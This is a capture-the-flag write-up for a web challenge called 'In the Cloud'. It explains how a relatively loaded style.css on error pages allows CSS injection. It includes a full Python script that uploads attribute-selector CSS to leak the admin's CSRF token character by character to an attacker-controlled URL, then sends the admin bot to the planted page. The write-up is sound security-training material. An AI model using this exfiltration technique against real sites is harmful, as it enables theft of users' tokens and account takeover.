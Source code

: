 # **_In the Cloud_**
### Hard: 700 pts

> A platform that would serve as a cloud for attackers has been discovered. An important file is auto-copied into each user's directory when creating their account, however it can only be read by the admin. Find a way to do this.


> Challmaker: sc0r7

### Recognition phase

![base page](base_page.png)

We have on this app we can create an account log into it and post our files which would be available to download for only 5 minutes.

Every uploaded file is located at `users/<username>/<filaname>` and trying to access it via url we get a 403. 

![403](403_page.png)

We also see that every user have a default file `users/<username>/flag` and it is what we're looking for.
Trying to download it we get a message this message

**Only admin csrf token can read the flag.**

This tells us that we gotta find a way to look for the admin CSRF token as it is the only one that is authorized to download this file.

We also have `bounty.php` page where we can provide an admin a link to look for.


### Exploit phase


So at first I tried every possible way to upload a php to the server but i always got the same message

![php unauthrized](php_not_allowed.png)

I then looked for an XSS and didn't find anything profitable but something rather funny

![weird xss](xss.png)

But this won't help much or at least i didn't dig much onto that. Skipping all the other tricks tried i will head right to the real solve.

By taking a closer look at the error pages (403, 404...) we can see that a CSS file is referenced using a relative path.
```html
    <link rel="stylesheet" href="style.css">
```
What i mean by relative path is that whenever a page triggers one of these errors the app will try to load the CSS from the given page that triggered that error. And we can confirm this by taking a look at the inspector.

![loading style](loading_style.png)

Knowing that we can then assume that by trying to access `/users/<username>` which normally throws a 403 if the folder contain one of our file named style.css it will be relatively loaded at `/users/<username>/style.css` and this opens up a way for CSS injection. We could then use a **_CSS Data Exfiltration_**.

This is a very interesting exploit as it shows how little flaws in security are exploitable. (_Must be crazy to find this exploit lol_)

So here is a beautiful blog that explains it: [CSS Injection](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)

I then built an exploit script to:

- Create a file named style.css in my user directory
- Send the link of my user directory to the admin


```python
import http.client
import os
import uuid
import sys
import requests

boundary = str(uuid.uuid4())
headers = {
    'Content-Type': f"multipart/form-data; boundary={boundary}",
    'Cookie': "session=REDACTED; PHPSESSID=REDACTED"
}

conn = http.client.HTTPConnection("ctf.hackerlab.bj", 2020)

key = sys.argv[1]

if len(key) == 64:
    print("Token fully retrieved")

data = f"""
  input[name="csrf"][value^="{key}a"] {{
    background: url(https://REDACTED/?q=a)
  }}

  input[name="csrf"][value^="{key}b"] {{
    background: url(https://REDACTED/?q=b)
  }}

  input[name="csrf"][value^="{key}c"] {{
    background: url(https://REDACTED/?q=c)
  }}

  input[name="csrf"][value^="{key}d"] {{
    background: url(https://REDACTED/?q=d)
  }}

  input[name="csrf"][value^="{key}e"] {{
    background: url(https://REDACTED/?q=e)
  }}

  input[name="csrf"][value^="{key}f"] {{
    background: url(https://REDACTED/?q=f)
  }}

  input[name="csrf"][value^="{key}0"] {{
    background: url(https://REDACTED/?q=0)
  }}

  input[name="csrf"][value^="{key}1"] {{
    background: url(https://REDACTED/?q=1)
  }}

  input[name="csrf"][value^="{key}2"] {{
    background: url(https://REDACTED/?q=2)
  }}

  input[name="csrf"][value^="{key}3"] {{
    background: url(https://REDACTED/?q=3)
  }}

  input[name="csrf"][value^="{key}4"] {{
    background: url(https://REDACTED/?q=4)
  }}

  input[name="csrf"][value^="{key}5"] {{
    background: url(https://REDACTED/?q=5)
  }}

  input[name="csrf"][value^="{key}6"] {{
    background: url(https://REDACTED/?q=6)
  }}

  input[name="csrf"][value^="{key}7"] {{
    background: url(https://REDACTED/?q=7)
  }}

  input[name="csrf"][value^="{key}8"] {{
    background: url(https://REDACTED/?q=8)
  }}

  input[name="csrf"][value^="{key}9"] {{
    background: url(https://REDACTED/?q=9)
  }}
  """


payload = (
    f"--{boundary}\r\n"
    f"Content-Disposition: form-data; name=\"files[]\"; filename=\"style.css\"\r\n"
    "Content-Type: text/css\r\n"
    "\r\n"
    f"{data}\r\n"
    f"--{boundary}\r\n"
    f"Content-Disposition: form-data; name=\"csrf\"\r\n"
    f"\r\n"
    f"REDACTED\r\n"
    f"--{boundary}--\r\n"
)

conn.request("POST", "/cloud.php", body=payload, headers=headers)

response = conn.getresponse()
data = response.read()

conn.close()

res = requests.post('http://ctf.hackerlab.bj:2020/bounty.php', headers={
        "Cookie": "session=REDACTED; PHPSESSID=REDACTED"
    }, data={
        "url":"/users/giga/",
        "csrf":"REDACTED"
    })
```

To use this script you have to run it with at first an empty string check which char is reflected in your serv, add it to your _know token part_ and then re-run it again.

```sh
➜  cloud python3 test.py ""
➜  cloud python3 test.py "0"
➜  cloud python3 test.py "0f"
➜  cloud python3 test.py "0f"
➜  cloud python3 test.py "0f4"
➜  cloud python3 test.py "0f47"
➜  cloud python3 test.py "0f47"
➜  cloud python3 test.py "0f478"
...
```

Sometimes it doesn't automatically works so i had to run it some more time to get the next char.

![exploit phase](exploit_page.png)

After a bunch of time running the exploit we finally get the token. By accessing 
`/cloud.php?csrf=<TOKEN>&filename=flag` we get the flag

![flag found](flag_found.png)


##### _By w1z0z - (l3gm1nn)_